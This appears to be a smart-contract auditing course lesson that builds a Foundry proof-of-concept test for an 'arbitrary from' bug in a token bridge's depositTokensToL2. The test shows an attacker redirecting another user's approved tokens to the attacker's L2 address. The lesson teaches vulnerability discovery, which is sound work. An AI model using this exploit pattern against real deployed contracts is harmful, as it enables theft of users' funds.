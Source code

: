 ```yaml
---
title: Exploit - Arbitrary From - PoC
---
```


_Follow along with the video lesson:_

---

### Exploit - Arbitrary From - PoC

Now that we've identified an exploit in the use of an `arbitrary from` in `depositTokensToL2`, let's write a Proof of Code to demonstrate the issue. We can leverage the existing test suite to write our tests.

Navigate to `L1TokenBridge.t.sol`.

This test suite has a decent setup we can leverage, so our user (Alice) is configured with funds already and a vault etc has been prepped for us. Our test should just need to start with Alice, innocently approving the tokens she wants to move to L2.

```js
function testCanMoveApprovedTokensOfOtherUsers() public {
    // poor Alice approving
    vm.prank(user);
    token.approve(address(tokenBridge), type(uint256).max);
    vm.stopPrank();
}
```

Now's time for Bob. We're going to set the amountToSteal to Alice's token.balanceOf and create a new attacker user to represent Bob in the transaction. We then prank the attacker.

```js
uint256 amountToSteal = token.balanceOf(user);
address attacker = makeAddr("attacker");
vm.prank(attacker);
```

From here, the order in which we do things in quite important. We know when `depositTokensToL2` is called that an event is emitted and at the root of this vulnerability is that this event is going to be populated with malicious data - Bob's L2 address! In order to detect an event in Foundry's test framework we can use `vm.expectEmit`.

By setting `vm.expectEmit`, _then_ emitting what we expect the function to emit, **_then_** calling that function, the test suite will compare our expectations to what is actually emitted by the function.

```js
vm.expectEmit(address(tokenBridge));
emit Deposit(user, attacker, amountToSteal);
tokenBridge.depositTokensToL2(user, attacker, amountToSteal);
```

And finally, we can close our test off with some assertions. We can show that Bob's transaction left Alice with 0 tokens, and that those tokens are in the vault, waiting to be minting on L2 at the emitted L2 address (Bob's!)

```js
assertEq(token.balanceOf(user), 0);
assertEq(token.balanceOf(address(vault)), amountToSteal);
vm.stopPrank();
```

<details>
<summary>testCanMoveApprovedTokensOfOtherUsers</summary>

```js
function testCanMoveApprovedTokensOfOtherUsers() public {
    // poor Alice approving
    vm.prank(user);
    token.approve(address(tokenBridge), type(uint256).max);
    vm.stopPrank();

    uint256 amountToSteal = token.balanceOf(user);
    address attacker = makeAddr("attacker");
    vm.prank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(user, attacker, amountToSteal);
    tokenBridge.depositTokensToL2(user, attacker, amountToSteal);

    assertEq(token.balanceOf(user), 0);
    assertEq(token.balanceOf(address(vault)), amountToSteal);
    vm.stopPrank();
}
```

</details>

---

Now, we can run this test.

```bash
forge test --mt testCanMoveApprovedTokensOfOtherUsers -vvv
```

::image{src='/security-section-7/20-arbitrary-poc/arbitrary-poc1.png' style='width: 100%; height: auto;'}

### Wrap Up

Boom! A proof of code demonstrating that anyone can call this function on someone elses approved tokens, stealing them on L2.

Our first `High`, we found it pretty quick and `Slither` was a huge help, thanks `Slither`!

Let's keep going, `Slither` had another red detector in that output... See you in the next lesson!
